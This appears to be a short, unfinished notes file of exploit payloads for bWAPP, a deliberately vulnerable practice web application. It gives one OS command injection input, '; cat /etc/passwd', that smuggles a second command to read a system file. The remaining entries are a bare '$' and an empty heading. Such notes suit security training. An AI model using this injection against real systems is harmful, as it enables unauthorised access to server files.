 # bWAPP - Exploits

### (1) OS Command Injection (low)
```bash
; cat /etc/passwd
```

### (2) OS Command Injection-Blind (low)
```bash
$
```

### (3) Cross-Site Scripting - Reflected (GET) (low)
